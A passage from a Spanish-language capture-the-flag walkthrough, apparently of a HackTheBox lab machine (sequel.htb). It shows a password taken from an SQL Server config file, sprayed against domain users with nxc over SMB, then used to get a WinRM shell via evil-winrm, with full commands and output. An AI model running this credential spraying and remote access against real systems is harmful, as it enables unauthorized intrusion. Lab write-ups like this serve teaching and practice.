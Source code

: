 ```ini
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
```

Otra contraseña, y si la probamos con los usuarios que podemos ver con el comando `net user`:

```bash
❯ nxc smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3 STATUS_LOGON_FAILURE 
```

Este usuario es parte del grupo de administración remota, por lo que puede usar WinRM:

```bat
PS C:\SQL2019\ExpressAdv_ENU> net user ryan
User name                    ryan
Full Name                    Ryan Howard
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/8/2024 9:55:45 AM
Password expires             Never
Password changeable          6/9/2024 9:55:45 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2025 6:53:57 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Management Department*Domain Users
The command completed successfully.
```

```bash
❯ evil-winrm -i dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3
Evil-WinRM shell v3.6
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents>
```
